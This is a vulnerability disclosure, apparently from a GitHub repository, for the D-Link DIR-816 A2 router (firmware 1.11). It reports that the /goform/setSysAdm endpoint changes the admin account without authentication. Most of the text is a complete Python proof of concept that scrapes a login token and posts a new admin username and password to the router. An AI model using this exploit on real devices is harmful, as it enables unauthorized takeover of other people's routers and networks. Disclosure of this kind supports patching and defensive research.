

# D-Link DIR-816 A2 Edit Web And System Account Without Authentication

**Vender**：D-Link

**Firmware version**: 1.11

**Hardware version**: DIR-816 A2

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

Attacker can use a API URL "/goform/setSysAdm" to edit web and system account without authentication.

## POC


v
Change web and system user password:
```python
# !/usr/bin/env python2
# coding=utf-8
import requests


def get_token_id(target_ip):
    """

    :param target_ip: router ip address.
    :return: tokenid
    """
    url = "http://{}/dir_login.asp".format(target_ip)
    rsp = requests.get(url, allow_redirects=False)
    rsp_list = rsp.text.split()
    tokenid = None
    for i in range(len(rsp_list)):
        if 'name="tokenid"' in rsp_list[i]:
            tokenid = int(rsp_list[i + 1].split('=')[1][1:-1])
            break
    return tokenid


def send_from_request(target_ip, from_name, data):
    """

    :param target_ip: router ip address.
    :param from_name: from_name to request
    :param data: post data in json format.
    :return:
    """
    url = "http://{}/goform/{}".format(target_ip, from_name)
    rsp = requests.post(url, data=data, allow_redirects=False, timeout=1)
    return rsp.text


if __name__ == '__main__':
    target_ip = "192.168.0.1"
    token_id = get_token_id(target_ip)
    if token_id:
        username = "Admin"
        password = "zaq12wsx"
        from_name = "setSysAdm"
        from_data = {"admuser": username, "admpass": password, "tokenid": token_id}
        send_from_request(target_ip, from_name, from_data)

```
